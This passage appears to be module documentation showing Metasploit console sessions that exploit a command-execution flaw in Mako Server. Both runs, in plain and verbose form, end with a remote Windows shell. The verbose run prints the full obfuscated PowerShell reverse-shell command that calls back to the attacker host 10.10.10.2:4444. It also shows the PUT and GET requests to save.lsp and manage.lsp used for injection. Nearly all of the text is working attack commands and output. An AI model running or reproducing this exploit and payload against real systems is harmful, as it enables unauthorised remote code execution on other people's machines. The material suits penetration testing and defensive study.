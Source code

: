 ## Scenarios

```
msf > use exploit/multi/http/makoserver_cmd_exec 
msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
PAYLOAD => cmd/windows/reverse_powershell
msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.2
LHOST => 10.10.10.2
msf exploit(makoserver_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.10.10.2:4444 
[*] Sending payload to target...
[*] Command shell session 1 opened (10.10.10.2:4444 -> 10.10.10.3:49175) at 2017-10-26 21:23:59 -0400

Microsoft Windows
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\Smith\Downloads\MakoServer>

```

### Verbose Output

```
msf > use exploit/multi/http/makoserver_cmd_exec 
msf exploit(makoserver_cmd_exec) > set RHOST 10.10.10.3
RHOST => 10.10.10.3
msf exploit(makoserver_cmd_exec) > set VERBOSE true
VERBOSE => true
msf exploit(makoserver_cmd_exec) > set PAYLOAD cmd/windows/reverse_powershell
PAYLOAD => cmd/windows/reverse_powershell
msf exploit(makoserver_cmd_exec) > set LHOST 10.10.10.2
LHOST => 10.10.10.2
msf exploit(makoserver_cmd_exec) > check

[*] Trying to detect running Mako Server and necessary files...
[*] Mako Server save.lsp returns correct output.
[*] 10.10.10.3:80 The target appears to be vulnerable.
msf exploit(makoserver_cmd_exec) > exploit

[*] Started reverse TCP handler on 10.10.10.2:4444 
[*] Sending payload to target...
[*] Now executing the following command: os.execute([[powershell -w hidden -nop -c function RSC{if ($c.Connected -eq $true) {$c.Close()};if ($p.ExitCode -ne $null) {$p.Close()};exit;};$a='10.10.10.2';$p='4444';$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$p);$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize;$p=New-Object System.Diagnostics.Process;$p.StartInfo.FileName='cmd.exe';$p.StartInfo.RedirectStandardInput=1;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0;$p.Start();$is=$p.StandardInput;$os=$p.StandardOutput;Start-Sleep 1;$e=new-object System.Text.AsciiEncoding;while($os.Peek() -ne -1){$o += $e.GetString($os.Read())};$s.Write($e.GetBytes($o),0,$o.Length);$o=$null;$d=$false;$t=0;while (-not $d) {if ($c.Connected -ne $true) {RSC};$pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) {$r=$s.Read($nb,$pos,$nb.Length - $pos);$pos+=$r;if (-not $pos -or $pos -eq 0) {RSC};if ($nb[0..$($pos-1)] -contains 10) {break}};if ($pos -gt 0){$str=$e.GetString($nb,0,$pos);$is.write($str);start-sleep 1;if ($p.ExitCode -ne $null){RSC}else{$o=$e.GetString($os.Read());while($os.Peek() -ne -1){$o += $e.GetString($os.Read());if ($o -eq $str) {$o=''}};$s.Write($e.GetBytes($o),0,$o.length);$o=$null;$str=$null}}else{RSC}};]])
[*] Sending PUT request to save.lsp...
[*] Sending GET request to manage.lsp...
[*] Command shell session 1 opened (10.10.10.2:4444 -> 10.10.10.3:49174) at 2017-10-26 21:21:08 -0400

Microsoft Windows
```